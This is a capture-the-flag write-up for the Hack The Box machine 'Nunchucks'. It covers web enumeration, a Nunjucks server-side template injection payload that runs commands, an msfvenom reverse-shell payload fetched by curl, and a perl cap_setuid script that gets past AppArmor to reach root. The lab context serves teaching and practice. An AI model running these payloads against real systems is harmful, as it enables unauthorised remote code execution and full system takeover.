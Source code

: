 # Nunchucks Writeup

objetives :
* user flag
* root flag

---

## User.txt

### Basic Enumeration

the ICMP TTL indicates that it's a Linux Machine  

nmap :
* p22	OpenSSH 8.2p1
* p80	nginx 1.18.0 (Ubuntu)
* p443	nginx 1.18.0 (Ubuntu)

the port 80 server is just a redirection to port 443 server

### Web

having a quick look at the page it seems like there is a signup and login page but neither of them are working  
we try directory enumeration, its a little tricky cause every request gives a 200 status, so we have to filter by size  
we don't find any interesting directory  
by the way, while doing all of this we see that the page is using **Node.js**

there is a mail on the main page whit the domain *nunchucks.htb*  
that makes me think that there might be a hidden subdomain  
we use **ffuf** for subdomain enumeration and we find *store.nunchucks.htb*  

### Store

the first thing we see is an textbox asking for an email  
that sends the email to */api/submit*, and we get a response where the email of your input is sent back to you

i get to a point where i can't find anything and i check HTB to see the tags of the machine  
we see the tag **SSTI**, that stands for Server Side Template Injection  
i didn't even know about this vulnerability, so i search for it and i try various payloads  
looks like sending *{{7\*3}}* to */api/submit* works because it responds you with 21  

### Exploiting SSTI 

we try to know which template Node is using by trying payloads on this [link](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)  
we come to the conclusion that its using **NUNJUCKS**

after a lot of tries, i find a payload that actually works :  
`{{range.constructor('return global.process.mainModule.require(\"child_process\").execSync(\"whoami\")')()}}`

the reason why i needed a lot of tries is because the payload i found had single quotes instead of backslash + double quotes  
that is, `'child_process'` insted of `\"child_process\"`

### Upgrading RCE to a Reverse Shell

the most common reverse shell payloads are not working for me, so i though about creating a reverse shell executable with **msfvenom**  
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o shell.elf`  
now i create a server on my machine with Python and use the **SSTI** and the **curl** command to upload it to the target machine  
i give execution permisions to the file with **chmod** and then set a **netcat listener**  
now i execute the file... it works !!! we have a Reverse Shell and user.txt

---

## Root.txt

we search binaries capabilities and we find that **perl** has the following capabilitie : *cap_setuid+ep*  
there is an entry in GTFOBins to exploit this, the payload is 
```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
it doesn't work, but it works with *whoami* instead of */bin/sh*... what is happening ?  

this kind of behaviour in a program reminds me of the security module **AppArmor**  
so we find files containing the word *AppArmor*  
there are plenty of them !! we find an interesting folder at */etc/apparmor.d* whit a file called *usr.bin.perl*  
it seems that is denying us the acces to */root*  
is there any way to bypass that ? time to ask Google !!  

there is a pretty interesting bug about this topic on [this link](https://bugs.launchpad.net/apparmor/+bug/1911431)  
it says that you can bypass it with a script starting with a **shebang line** (#!/usr/bin/perl)  
lets try it !! we write this script called *shell.perl*
```perl
#!/usr/bin/perl

use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/bash";
```
we give execution permission to it, we execute it with ```./shell.perl``` and voilá !!! there you go  
enjoy your root acces !

